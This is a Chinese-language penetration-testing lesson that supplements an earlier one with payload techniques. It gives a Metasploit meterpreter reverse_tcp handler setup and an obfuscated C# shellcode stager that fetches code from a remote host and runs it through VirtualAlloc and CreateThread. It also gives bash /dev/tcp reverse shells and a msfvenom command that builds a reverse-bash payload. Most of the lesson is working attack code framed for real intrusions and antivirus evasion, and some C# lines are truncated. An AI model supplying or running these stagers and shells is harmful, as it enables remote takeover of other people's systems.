 在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 C#，Bash

ps:在线代码高亮：http://tool.oschina.net/highlight

### 1、C#-payload
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```

混淆：
```csharp
using System; using System.Net; using System.Net.Sockets; using System.Runtime.InteropServices; using System.
namespace RkfCHtll { class LiNGeDokqnEH {
static byte[] idCWVw(string VVUUJUQytjlL, int eMcukOUqFuHbUv) {
    IPEndPoint nlttgWAMdEQgAo = new IPEndPoint(IPAddress.Parse(VVUUJUQytjlL),
eMcukOUqFuHbUv); 
    Socket fzTiwdk = new Socket(AddressFamily.InterNetwork,
SocketType.Stream, ProtocolType.Tcp); 
    try { fzTiwdk.Connect(nlttgWAMdEQgAo);}
    catch { return null;}
    byte[] gJVVagJmu = new byte[4];
    fzTiwdk.Receive(gJVVagJmu, 4, 0);
    int GFxHorfhzft = BitConverter.ToInt32(gJVVagJmu, 0);
    byte[] mwxyRsYNn = new byte[GFxHorfhzft + 5]; 
    int yVcZAEmXaMszAc = 0;
    while (yVcZAEmXaMszAc < GFxHorfhzft)
    { yVcZAEmXaMszAc += fzTiwdk.Receive(mwxyRsYNn,yVcZAEmXaMszAc + 5, (GFxHorfhzft - yVcZAEmXaMszAc) < 4096 
    byte[] XEvFDc = BitConverter.GetBytes((int)fzTiwdk.Handle);
    Array.Copy(XEvFDc, 0, mwxyRsYNn, 1, 4); mwxyRsYNn[0] = 0xBF;
    return mwxyRsYNn;}
static void hcvPkmyIZ(byte[] fPnfqu) {
    if (fPnfqu != null) {
        UInt32 hcoGPUltNcjK = VirtualAlloc(0,(UInt32)fPnfqu.Length, 0x1000, 0x40);
        Marshal.Copy(fPnfqu, 0, (IntPtr)(hcoGPUltNcjK), fPnfqu.Length);
        IntPtr xOxEPnqW = IntPtr.Zero; 
        UInt32 ooiiZLMzO = 0;
        IntPtr wxPyud = IntPtr.Zero;
        xOxEPnqW = CreateThread(0, 0, hcoGPUltNcjK, wxPyud, 0, ref ooiiZLMzO);
        WaitForSingleObject(xOxEPnqW, 0xFFFFFFFF); }}
static void Main(){
    byte[] dCwAid = null; dCwAid = idCWVw("xx.xx.xx.xx", xx);
    hcvPkmyIZ(dCwAid); }
        [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 qWBbOS,UInt32 HoKzSHMU, UInt [DllImport("kernel32")]private static extern
IntPtr CreateThread(UInt32 tqUXybrozZ, UInt32 FMmVpwin, UInt32 H
[DllImport("kernel32")] private static extern UInt32
WaitForSingleObject(IntPtr CApwDwK, UInt32 uzGJUddCYTd);
```

![](media/926b5570b97743dcfdc212edb6604589.jpg)


### 2、Bash-payload
```bash
i >& /dev/tcp/xx.xx.xx.xx/xx 0>&1
```  
![](media/49ee03061e17179d4022d4fc02df4da6.jpg)  

```bash
exec 5<>/dev/tcp/xx.xx.xx.xx/xx
cat <&5 | while read line; do $line 2>&5 >&5;done
```  
![](media/9b61ec08224188e6d2e172a47df7861a.jpg)

### 附录：
msfvenom 生成 bash
```bash
root@John:~# msfvenom -p cmd/unix/reverse_bash LHOST=xx.xx..xx.xx LPORT=xx > -f raw > payload.sh
```

参数简化
项目地址：  
https://github.com/g0tmi1k/mpc  
![](media/4b4fa44f7174bc8361028253fefead0e.jpg)

>   Micropoor
